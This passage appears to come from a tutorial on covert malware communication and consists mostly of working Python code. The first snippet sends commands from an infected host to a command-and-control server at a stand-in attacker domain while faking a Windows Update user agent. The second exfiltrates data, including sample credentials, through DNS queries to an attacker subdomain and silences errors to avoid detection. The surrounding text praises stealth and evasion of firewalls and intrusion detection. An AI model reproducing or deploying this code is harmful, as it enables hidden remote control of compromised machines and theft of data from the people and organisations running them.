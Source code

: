 ```python
import requests
import ssl
import json

# Configure SSL context for secure communication
context = ssl.create_default_context(ssl.Purpose.SERVER_AUTH)

def send_command(command):
    try:
        # Send POST request to C2 server with encrypted payload
        payload = {"cmd": command, "id": "INFECTED_HOST_123"}
        response = requests.post(
            "https://c2.attacker.com/endpoint",
            json=payload,
            headers={"User-Agent": "WindowsUpdate/1.0"},
            verify=context
        )
        return response.json().get("output", "")
    except Exception as e:
        return f"Error: {str(e)}"

# Example usage: Execute a command on the target system
output = send_command("dir C:\\")
print(output)
```

#### **Key Features**
- **Encryption**: TLS 1.2/1.3 ensures data confidentiality and integrity.
- **Stealth**: Traffic mimics legitimate HTTPS requests (e.g., to cloud services or APIs).
- **Resilience**: Retry mechanisms and exponential backoff handle network disruptions.

---

### **2. DNS Tunneling for Covert Communication**

DNS tunneling encodes data within DNS queries and responses, exploiting the ubiquitous nature of DNS traffic to bypass firewalls and intrusion detection systems (IDS). The `dnspython` library in Python enables this technique by allowing custom DNS queries.

#### **Implementation with `dnspython`**
The following example demonstrates how to exfiltrate data via DNS TXT records:

```python
import dns.resolver
import base64

def exfiltrate_data(data):
    # Encode data in base64 to fit DNS subdomain constraints
    encoded = base64.b64encode(data.encode()).decode()
    # Split data into chunks (DNS labels are limited to 63 characters)
    chunks = [encoded[i:i+63] for i in range(0, len(encoded), 63)]
    
    for chunk in chunks:
        try:
            # Send data via DNS TXT query
            resolver = dns.resolver.Resolver()
            resolver.nameservers = ["1.1.1.1"]  # Public DNS server
            resolver.resolve(f"{chunk}.exfil.attacker.com", "TXT")
        except Exception as e:
            pass  # Silently handle errors to avoid detection

# Example usage: Exfiltrate sensitive data
exfiltrate_data("User credentials: admin:password123")
```
